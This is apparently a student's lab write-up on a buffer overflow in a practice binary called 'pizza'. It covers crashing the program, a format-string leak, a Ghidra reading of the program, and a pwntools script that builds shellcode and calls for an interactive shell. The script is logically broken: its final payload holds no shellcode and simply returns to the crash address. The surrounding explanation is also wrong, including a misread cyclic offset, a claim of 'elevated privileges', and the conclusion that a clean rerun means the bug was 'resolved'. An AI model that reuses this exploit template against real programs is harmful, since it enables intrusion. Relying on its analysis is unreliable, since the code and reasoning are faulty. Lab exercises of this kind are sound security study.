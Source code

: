 #  Control Flow Integrity Violation 


The Weeks Lab focus was on Writing a python script using `pwntools` that executes a given program named `pizza.c`, leaks the stack offset, and spawns a shell. Technique used is `buffer overflow`

---

After downloading the victim program: pizza to my desktop and executed it in my terminal with the command `./pizza`; I obtained the error output `bash: ./pizza: Permission denied`, hence, I added execute permissions to the pizza file with the command chmod +x pizza. Rerun the victim program named pizza and did not encountered error.

After running the victim program: pizza to see how it works as it can be shown from the image below:

![Screenshot from 2023-04-30 12-09-30](https://user-images.githubusercontent.com/66968869/235370146-73381ada-ad4d-47cd-9d69-4d2da068bf7f.png)

I then proceeded to Install pwntools by running `pip install pwntools` in my terminal to install pwntools library for Python on my system.

I tried getting to make the victim program "pizza" to crash by entering a long string of the alphabet `A` as my name or prompt for illustration. This led to an output with a segmentation fault in the image as shown below:

![Screenshot from 2023-04-30 12-53-35](https://user-images.githubusercontent.com/66968869/235371217-5ed04c10-2570-4632-a599-71713944d353.png)

Also using format strings to make something strange happen; by running the executable "pizza" and passing in some format string characters, it can be seen that the program is vulnerable(by providing memory addresses) as it can be seen from the image below as a sample output:

![Screenshot from 2023-04-30 16-07-40](https://user-images.githubusercontent.com/66968869/235378266-9a28a003-1ae5-4af0-8cc7-232930b2ebbe.png)

Moreover, running the file `python3 python_injection.py` provided the output below:

![Screenshot from 2023-04-30 16-00-49](https://user-images.githubusercontent.com/66968869/235378272-5416a3b1-c783-46f2-a5bf-8a86afd1dea4.png)

Furthermore, Opening the executable in Ghidra to really see how it works (and the library functions it is using). From the C code in Ghidra disassemble pane it can be seen that, the program is a basic pizza delivery application that accepts a user's name, the quantity of pizzas they wish to purchase, and their credit card information and then calculates the total cost of the transaction. In terms of how it works; the program starts by declaring some variables, including a pointer to a character array that will hold the user's name, a pointer to a block of memory allocated with malloc, and various local variables of different types. The program then prompts the user to enter their name using the print function and reads the input using the getline function. If getline returns 0, the program exits with an error message otherwise, the program then calls the getname function (a custom function defined), passing it pointers as arguments. The program then enters a loop that prompts the user to enter the number of pizzas they want to order using the print function and reads the input using the scanf function. This loop continues until the user enters a valid number between 1 and 10. Once the user enters a valid number, the program calculates the total cost of the order and displays a message using the printf function.The program then reads the user's credit card information using the scanf function and displays a confirmation message using the printf function. The program makes use of the following library functions including but not limited to `malloc` to allocate memory dynamically, `getline` to read input from the user, `printf` to display messages to the user and `scanf` to read input from the user.

Lastly, running the victim program "pizza" in GDB.

## python script using `pwntools` that executes the given program [pizza], leaks the stack offset, and spawns a shell.
Below is a script in python to run the pizza program, getting the pizza program executable to crash (segfault), stack offset and spawning of the shell. 
```
#!/usr/bin/env python3

from pwn import *

#Context Set UP
context.arch = 'amd64'
context.os = 'linux'

binary = './pizza'

# Defining payload
offset = 72  # found via manual testing
shellcode = asm(shellcraft.amd64.linux.sh())
padding = b'A' * (offset - len(shellcode))
payload = shellcode + padding + p64(0xdeadbeef)

p = process(binary)

p.sendline(payload)

# Get RIP offset
pattern = cyclic(1000, n=8)
p = process(binary)
p.sendline(pattern)
p.wait()
core = p.corefile
rip_offset = cyclic_find(core.rip, n=8)
log.info(f'RIP offset: {rip_offset}')

# Building final payload
padding = b'A' * rip_offset
rip = p64(core.rip)
payload = padding + rip + b'\n'
p = process(binary)
p.send(payload)

# Interaction with the shell
p.interactive()

```
The #!/usr/bin/env python3 instruction at the beginning of this script is used for specifying the version of python interpreter and its dependencies to use when parsing the script. rAlso the instruction `from pwn import *` which is normally used in exploit development to import the "pwntools" library, to provide a set of useful tools and utilities for interacting with vulnerable programs and services and also  providing functionalities for compiling and executing shellcode. Also,
context is one of the function's of "pwntools" library that is used to set various context variables that affect the behavior of the library when interacting with vulnerable programs and services. Arch, os, endian, and word_size variables are some of the options that can be set using the context function. Also the command `binary = './pizza'` to define the targeted executable and linkable format. After starting the process, I then went on to create a payload that exploits a buffer overflow vulnerability in a vulnerable program through overwriting the return address of a function call with the address of the payload in memory. Then the pizza program is started and then went on to send the created exploit payload to the vulnerable program. The p object is an instance of the process class in the pwntools library that represents a running process or service. By sending the payload to the process, the exploit code in this case `python_injection.py` attempts to trigger the buffer overflow vulnerability and overwrite the return address of a function call with the address of the payload in memory. This will cause the program or service to execute the shellcode in the payload and spawn a shell with elevated privileges, allowing the attacker to take control of the vulnerable system.

![Screenshot from 2023-05-01 07-03-16](https://user-images.githubusercontent.com/66968869/235553801-eab2b4a9-3a04-43ee-b9b3-01a0da7dcc42.png)

Based on the output of the log  after running `python3 python_injection.py`,  it can be seen that a segmentation fault occurred and a core dump was generated. The line "Process './pizza' stopped with exit code -11 (SIGSEGV)" indicates that the program crashed due to a segmentation fault (SIGSEGV signal). The subsequent lines indicate that a core dump was generated and then parsed. The core dump indicates that there was a segmentation fault (SIGSEGV) in the process or program named `pizza` which was executed with an exploit program named `pizza_injection.py` and the pizza program pid is 63118. The RIP (Instruction Pointer) register had a value of 0x40142e when the process encountered the segmentation fault. The RSP (Stack Pointer) register had a value of 0x7ffe8e2ec6c8. The fault address (0x6161616163626161) is the ASCII representation of the string "aabacaa", which suggests that there might be a buffer overflow vulnerability in the program. Also, with the RIP offset of -1 from the RIP value in the crashed process, this indicates a stack overflow, where the attacker is able to overwrite the return address and redirect the program execution to a different location.

The program was then restarted with a new process ID of 63132. It accepted input from the user, processed it without issue, and exited normally, because of the possibility that the issue was resolved in the new instance of the program.
